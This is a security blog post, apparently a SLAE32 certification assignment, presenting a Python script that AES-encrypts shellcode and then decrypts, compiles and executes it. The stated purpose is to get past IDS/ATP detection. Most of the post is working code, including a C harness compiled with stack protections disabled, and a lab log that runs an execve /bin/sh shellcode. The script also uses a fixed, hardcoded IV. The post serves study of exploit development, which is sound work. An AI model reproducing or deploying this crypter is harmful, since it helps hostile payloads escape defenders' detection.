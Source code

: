 ```yaml
---
layout: single
title: AES Block Cipher script for Shellcodes
date: 2019-10-18
classes: wide
header:
  teaser: /assets/images/SLAE32/shellcoding32.png
tags:
  - Assembly
  - Pentester Academy
  - SLAE32
  - Shellcode
  - Certifications
--- 
```

![](/assets/images/SLAE32/shellcoding32.png)

## Introduction
I think the best way to obfuscate shellcodes to avoid IDS/ATP protection is the polyphormism method, but also encrypting the shellcode could be a valid alternative to bypass those control systems. There are a lot of cipher algorithms outside to choose for this purpose but we need considering some aspects in this case. First we need a strong algorithm to prevent bruteforce on key or frequency analysys attack on ciphered text, second we need our implementation easy to write, easy to use and fast on encrypting/decrypting operations.<br>
First of all we need to choose if we want to implement a stream or block cipher, let's look at some features:

| 1. |	Block Cipher Converts the plain text into cipher text by taking plain text’s block at a time. |	Stream Cipher Converts the plaint text into cipher text by taking 1 byte of plain text at a time.
| 2. |	The complexity of block cipher is simple. |	Stream cipher is more complex.
| 3. |	Block cipher uses confusion as well as diffusion. |	Stream cipher uses only confusion.

There are many other features to list but this isn't the scope of this post. If you want to deep learn informations on block and stream ciphers I suggest to read this [book](https://www.crcpress.com/Cryptography-Theory-and-Practice/Stinson-Paterson/p/book/9781138197015).<br>
We choosed a block cipher algorithm. Next decisiom to make is what block cipher algorithm? According to [Wikipedia](https://en.wikipedia.org/wiki/Block_cipher) there are a lot of block cipher but one in particular is adopted by the NIST, the Advanced Encryption Standard (AES), wich could encrypt plain text block with a maximum 256 byte key size.<br>

## Implementation
Sometimes ago i wrote a python script for my [Github Redteam toolbox](https://github.com/bolonobolo/toolbox/blob/master/criptography/block_cipher.py) that works with block ciphers (AES, DES and 3DES).
So we've only to make some small changes on this script to make it operational on encrypting/decrypting and executing shellcode.
The original script works with OFB variant of the AES algorithm that means that i've to use alway a different Initiator Vector (IV).
In this case we work with CBC mode so the IV could be a fixed 16 bytes string.
However the main change to make is to add a function that execute our shellcode once it is decrypted.
Taking note that this script works only with python2, here's the code.<br>
```python
#!/usr/bin/python

# AES Block Cipher script for shellcodes
# Author: @bolonobolo
# Date: 2019/10/18

from Crypto.Cipher import AES
from base64 import b64encode,b64decode
import random
import string
import os

def getMode():
	while True:
		print ("Welcome to AES Block Cipher script for shellcodes")
		print("Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?")
		mode = raw_input().lower()
		if mode in "encrypt e decrypt d execute x".split():
			return mode
		else:
			print('Enter either "encrypt" or "e", "decrypt" or "d", "execute" or "x".')

def getMessage():
	print("Enter the text")
	return raw_input()

def getKey():
	print("Enter the key")
	return raw_input()

def getIV():
	# 16 byte iv
	iv = "0123456789abcdef"
	return iv


def genkey(length):
	key = []
	# in ascii one letter = 8 bit = 1 byte 
	# AES needs 128, 192, or 256 bits, i choosed 256 256/8 = 32
	for _ in range (0,length):
		key.append(random.SystemRandom().choice(
				string.ascii_uppercase + string.ascii_lowercase + string.digits
				)) 
	return ''.join(key)

def aes(cipher, key, iv):
	cipher = AES.new(key, AES.MODE_CBC, iv)
	return cipher

def padding(size, text):
	while len(text) % size != 0:
			text += " "
	return text	

def cipherAlgo(key, text, size, iv):
	cipher = aes("aes", key, iv)	
	text = padding(size, text)
	text = cipher.encrypt(text)
	msg = b64encode(text)
	return msg

def decipherAlgo(key, text, iv):
	cipher = aes("aes", key, iv)
	text = b64decode(text)	
	msg = cipher.decrypt(text)
	return msg

def executeAlgo(code):
	code = code.replace(" ", "") # eventualy clean code from blank spaces
	file = open("shellcode.c", "w")
	file.write('''
		#include<stdio.h>
		#include<string.h>

		unsigned char code[] = \"''' + code + '''";

		void main() {

			printf(\"Shellcode Length:  %d\\n\", strlen(code));

			int (*ret)() = (int(*)())code;

			ret();

		}'''
	)
	file.close()
	os.system("gcc -fno-stack-protector -z execstack -m32 shellcode.c -o shellcode 2>/dev/null && ./shellcode")

def main():
	mode = getMode()
	text = getMessage()
	iv = getIV()
	if mode[0] == "e":
		key = genkey(32) # 256 bits of key
		size = 16 # block size has to be 16 bytes
		msg = cipherAlgo(key, text, size, iv)
		print("Encrypted shellcode: %s" % (msg))
		print("The key is: %s" % (key))
		# print("The IV is: %s" % (iv))
	elif mode[0] == "d":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
	elif mode[0] == "x":
		key = getKey()
		msg = decipherAlgo(key, text, iv)
		print("Decrypted shellcode: %s" % (msg))
		executeAlgo(msg)	

if __name__ == '__main__':
	main()
```    

## Simple usage
Theentire workflow is very simple, first we need to extract the hexadecimal values of our shellcode with ```objdump``` command, next we launch the script choosing the ```encrypt``` option, paste our hex string, press enter and obtain the encrypted string and the key.
Now we can relauch the script but this time we'll choose the ```execute``` option that decrypt the encrypted shellcode, write a C executer, compile it and execute it.<br>
```bash
root@slae32-lab:# objdump -d ../6_polimorphism/execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
e
Enter the text
\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80
Encrypted shellcode: 2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
The key is: PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
root@slae32-lab:# ./aes_executor.py 
Welcome to AES Block Cipher script for shellcodes
Do you wish do (e)ncrypt, (d)ecrypt or e(x)ecute?
x
Enter the text
2QYEdFCoEH6s9iEa0+57BRONKsF4Ufr71I5mncYiKy2F0X2mupdgtFUKejUn5fUTMk303rxkePzjeDdOyzG1jyjNDn1CyWLYvugabvARSmb0q7PCIO4RA0l1/s/LuVWlvudmXFZrqa7d9VvXDH6QHQ==
Enter the key
PQZic8H9KiuMrAv2n0Y26cqWkH9CQiAv
Decrypted shellcode: \x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80            
Shellcode Length:  25
# exit
root@slae32-lab:# ls
aes_executor.py  shellcode  shellcode.c
```
For our test we choose the last 25 bytes execve /bin/sh shellcode.<br>
![](/assets/images/SLAE32/assignment_7/crypter_0.gif)<br>
Nice job<br>
<br>
All the codes used in this post are available in my dedicated [github repo](https://github.com/bolonobolo/SLAE32_code).<br>
<br>
This blog post has been created for completing the requirements <br>
of the SecurityTube Linux Assembly Expert certification: [SLAE32 Course](http://securitytube-­training.com/online­‐courses/securitytube­‐linux­‐assembly­‐expert/)<br>
